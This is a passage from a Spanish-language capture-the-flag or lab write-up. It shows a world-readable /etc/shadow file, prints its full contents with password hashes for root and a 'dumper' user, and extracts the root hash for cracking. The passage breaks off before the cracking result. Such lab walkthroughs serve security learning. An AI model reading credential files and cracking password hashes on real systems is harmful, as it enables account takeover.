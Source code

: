 Si enumeramos un poco el sistema podremos ver lo siguiente:

```shell
ls -la /etc/shadow
```

Info:

```
-rw-r--r-- 1 root shadow 974 feb  9  2024 /etc/shadow
```

Veremos que podemos leer el archivo `shadow`, si lo leemos veremos lo siguiente:

```
root:$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:19762:0:99999:7:::
daemon:*:18898:0:99999:7:::
bin:*:18898:0:99999:7:::
sys:*:18898:0:99999:7:::
sync:*:18898:0:99999:7:::
games:*:18898:0:99999:7:::
man:*:18898:0:99999:7:::
lp:*:18898:0:99999:7:::
mail:*:18898:0:99999:7:::
news:*:18898:0:99999:7:::
uucp:*:18898:0:99999:7:::
proxy:*:18898:0:99999:7:::
www-data:*:18898:0:99999:7:::
backup:*:18898:0:99999:7:::
list:*:18898:0:99999:7:::
irc:*:18898:0:99999:7:::
gnats:*:18898:0:99999:7:::
nobody:*:18898:0:99999:7:::
_apt:*:18898:0:99999:7:::
systemd-timesync:*:18898:0:99999:7:::
systemd-network:*:18898:0:99999:7:::
systemd-resolve:*:18898:0:99999:7:::
messagebus:*:18898:0:99999:7:::
sshd:*:18898:0:99999:7:::
systemd-coredump:!!:18898::::::
dumper:$6$8sDPsnEu5ZBa8bgE$EqxYjZuAYVmAqbusMGgx.NmwUwx0UcSVe2Z/YTRk1DqBOnxFxNbot7ktfzYxNALw8iDKXrkfV5.e54uTMgr371:19762:0:99999:7:::
shellinabox:*:19762:0:99999:7:::
```

Vemos que nos ha dejado, por lo que vamos a probar a `crackear` el `hash` del usuario `root`.

> hash.root

```
root:$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:19762:0:99999:7:::
```

Ahora si lo intentamos `crackear` veremos lo siguiente:
